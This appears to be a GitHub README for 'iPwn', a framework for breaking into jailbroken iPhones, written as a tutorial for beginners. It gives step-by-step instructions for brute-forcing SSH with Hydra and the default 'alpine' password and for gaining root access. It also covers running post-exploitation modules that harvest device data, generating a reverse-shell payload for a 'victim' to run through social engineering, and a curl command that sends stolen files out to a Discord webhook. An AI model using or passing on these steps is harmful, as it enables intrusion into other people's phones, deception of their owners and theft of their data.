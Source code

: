 # iPwn
A Framework meant for the exploitation of iOS devices.
![image](https://user-images.githubusercontent.com/78043996/119547132-ba00ee80-bd62-11eb-989a-1b9522ca6bd4.png)

<!> REMEMBER: THE IPHONE YOU ARE ATTEMPTING TO GET INTO USING THIS TOOL MUST BE JAILBROKEN <!>
# Status - ❌
This project is still being worked on. I'm adding more extensions and options for post-exploitation for harvesting Device information and other things. Im also working on a way to put a payload in a normal iOS tweak so that getting a reverse shell can be easier.

# Description/How to use [FOR NOOBIES!!!]
iPwn is a framework meant for exploiting and and gaining access to iOS devices. It also has an extension that is a mini-framework called 'iSteal' that is meant for post-exploitation (after you get access to the device). This description will walk you through the different ways and steps to get access to an iOS device and harvest information from it.

The first way of getting access to an iOS device. - SSH-Bruteforcing.

Most jailbroken iOS devices with Cydia come prepackaged with OpenSSH. And usually, the credentials are very weak or common, one of the most common passwords will be included in a wordlist that should be in your folder if you downloaded iPwn from my Github.

So lets begin! So first off, we'll start by running the script.
```
python main.py
```
Then, we are going to type in the 'brute' command. (If you want to type help and get familiar with the commands, you may do so.)
![image](https://user-images.githubusercontent.com/78043996/119564117-67313200-bd76-11eb-9acd-e80b952f138d.png)

Once we type in the 'brute' command. Type in 'help' to display all the available commands.
![image](https://user-images.githubusercontent.com/78043996/119564260-95167680-bd76-11eb-8adb-122e9455d47d.png)
Now, we are going to use the 'default' command to start SSH-Bruteforcing with a wordlist containing the most common passwords.
You will be asked to enter the targets IP address, please ensure you are entering the correct and vaild one, press enter, then move on with the next step.
![image](https://user-images.githubusercontent.com/78043996/119564509-deff5c80-bd76-11eb-9df7-a58df14cb08e.png)

<!> IF YOU ARE GETTING ERRORS, PLEASE MAKE SURE THAT HYDRA IS INSTALLED, YOU CAN INSTALL HYDRA WITH THE COMMANDS BELOW <!>
```
commands to install hydra:

sudo apt install hydra
sudo pacman -S hydra
```
Now back to the tutorial, if you have hydra installed on your PC, it should already be attempting to bruteforce. Just sit tight for about 20-40 seconds and if the device does use the default/common credentails supplied in the wordlist, then Hydra should give you a little message that shows the correct password.
![image](https://user-images.githubusercontent.com/78043996/119565382-deb39100-bd77-11eb-9081-c0a500acbf65.png)

As we can see, the correct password is 'alpine'. Now we can login into the phone by doing 'ssh root@ip_goes_here' on another terminal window. Once it prompts you for a password just enter in the password you got from Hydra.
![image](https://user-images.githubusercontent.com/78043996/119565646-35b96600-bd78-11eb-9602-09de842470b1.png)

Now we are logged in!

![image](https://user-images.githubusercontent.com/78043996/119565745-54b7f800-bd78-11eb-864e-60e569ab4dbc.png)

At this point we probably want to gather some information on the phone and control it, that will come later. Because first, we need to install some very important things. If you want to use SCP to transfer the setup file that automates everything then you may do so. The file is in /post-exploitation/post.sh.
Once you transfered the 'post.sh' file over to the iOS device, execute it by doing 'bash post.sh' and it should start installing and setting up the post exploitation tools that we will use.

<!> NOTE: THE COMMANDS BELOW WILL ONLY BE FOR THE PEOPLE THAT WANT TO INSTALL THE NECESSARY PACKAGES AND TOOLS MANUALLY <!>
```
run all these commands to setup/install everything thats needed:

apt install netcat
apt install python
apt install nano
git clone https://github.com/0x1CA3/iSteal.git
git clone https://github.com/0x1CA3/AutoEnum.git
```

Ok, so now that we have everything installed, we can go into the 'iSteal' folder and run the 'iSteal' post-exploitation script.
```
python3 post.py
```
<!> NOTE: Make sure when you try running python files, you run it using "python3" instead of "python" or "py" <!>

So now the script should be loaded, if you would like to use the 'help' command and look around, you may do so.
![image](https://user-images.githubusercontent.com/78043996/119568186-3c95a800-bd7b-11eb-9e3c-55c0dcdbefe1.png)

Now, we are going to use the 'list' command to show the available modules/options for post-exploitation.
![image](https://user-images.githubusercontent.com/78043996/119593903-d45dbb00-bda8-11eb-9dda-3f59b25b98b6.png)

<!> KEEP IN MIND: THERE WILL BE ALOT OF UPDATES ON THE POST-EXPLOITATION SCRIPT, AND MORE MODULES WILL BE ADDED, SO THIS IMAGE WILL BE UPDATED FOR THE SAKE OF BEING ACCURATE <!>

To use a module, simply do 'use specific/module'. Example: use modules/list_installed_default_apps

And as you can see, when we run that module, it shows us the installed default applications on the targets iOS device.
![image](https://user-images.githubusercontent.com/78043996/119568907-0e649800-bd7c-11eb-9f11-895a0db41a5b.png)


The second way to get access to an iOS device. - Reverse shell.

Now, im going to show you how to do it the second way, which is a little more advanced. Keep in mind, I wont include pictures for this part.
```
run the iPwn framework by doing 'python main.py'
type in the 'payload' command
wait for the payload factory to load.
select a payload of your choice, Example: use payloads/factory/reverse_bash
enter your IP
enter your Port
then you should get a message that says 'payload generated'
type in the 'back' command to go back to the main menu
type in the 'listen' command to start listening for incoming connections
make sure that your victim runs the script via terminal or throught their own way, try social engineering, be creative!
once the script is executed on the victims iOS device, you should get a connection
install the important packages via transferring the 'post.sh' located in /post-exploitation and executing it, or manually do it yourself.
you can now run the 'iSteal' or 'AutoEnum' post-exploitation tools
have fun! :)
```
<!> If you are doing step 2 and get stuck on the part where you have to install the important packages/tools, go into step 1 and copy the guide for installing the packages/tools! <!>

# File transfer/Extraction
There's multiple ways to transfer files to the iOS device and there's also lots of ways to download them. The easiest way to extract and download files from the iOS device is to use Curl and a discord webhook.

<!> NOTE: The segment below will demonstrate how to extract and download files from the iOS device using curl <!>

```
Step 1: Create a discord server
Step 2: Create a webhook and copy the link
Step 3: On the iOS device, navigate towards the directory that contains the file you want to retrieve.
Step 4: enter the command below (replace file_here.txt with the name of your file, replace webhook_url_here with your webhook url)

curl -i -H 'Expect: application/json' -F file=@file_here.txt -F 'payload_json={ "wait": true, "content": "", "username": "" }' webhook_url_here

Step 5: wait around 10-50 seconds
Done! The file should now be uploaded to your discord server. You can now download/view the file.
```

# Tested OS's
```
Windows 10 - Stable
Garuda Linux - Stable
Arch based distros - Stable
```

# Supported and tested iOS devices
```
Supported Devices [The post-exploitation extension should work for all of these]
-----------------
iPods newer than the 4th Gen iPod
iPhone 4
iPhone 4S
iPhone 5
iPhone 6
iPhone SE
iPhone 7
iPhone 7+
iPhone 8
iPhone 8+
iPhone X
iPhone XR
iPhone XS
iPhone 11
iPhone 12

My own tested devices [Ones I myself have personally tested]
---------------------
iPhone 4S
iPhone 5S
iPhone SE
iPhone 7+
iPad Air
iPod 4th Gen
```

# Screenshots
![image](https://user-images.githubusercontent.com/78043996/119547477-2845b100-bd63-11eb-96bb-f01106e833b6.png)
![image](https://user-images.githubusercontent.com/78043996/119548701-7909d980-bd64-11eb-9adf-774cc787586e.png)
![image](https://user-images.githubusercontent.com/78043996/119549700-7f4c8580-bd65-11eb-8131-0f261883df45.png)
![image](https://user-images.githubusercontent.com/78043996/119549828-a3a86200-bd65-11eb-831e-5de71ea65323.png)

# Update logs
[5/25/21] - Added 8 extra modules for the 'iSteal' post-exploitation tool.
[5/25/21] - Added 2 extra modules for the 'iSteal' post-exploitation tool.

# Credits
[https://github.com/0x1CA3]
